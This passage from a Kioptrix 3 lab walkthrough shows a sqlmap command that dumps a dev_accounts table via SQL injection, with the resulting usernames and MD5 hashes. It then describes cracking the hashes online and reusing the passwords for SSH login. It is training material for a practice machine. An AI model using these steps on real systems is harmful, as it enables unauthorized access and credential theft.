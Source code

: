 The `CONCAT()` function just connects all 3 column contents into one statement with a semicolon (`;`) as a delimeter. Ultimately, you can use SqlMap which automates the attack.

```console
root@EdgeOfNight:~# sqlmap -u kioptrix3.com/gallery/gallery.php?id=1 -T dev_accounts --dump

---CUT CUT CUT---

Database: gallery
Table: dev_accounts
[2 entries]
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e |
+----+------------+----------------------------------+

---CUT CUT CUT---
```

Both hashes being non-salted MD5s, I decide to crack them. You could use a tool like `hashcat` or `johntheripper`, but I'll stick to a simple online [rainbow tables cracker](https://crackstation.net/){:target="_blank"}.

<a href="/img/blog/kioptrix3/kioptrix3-11.png" target="_blank"><img class="centerImgHuge" src="/img/blog/kioptrix3/kioptrix3-11.png"></a>

Doing some experimenting I find out that the passwords can be used for SSH login. *dreg* has a limited shell and therefore *loneferret*'s account will be used instead. 
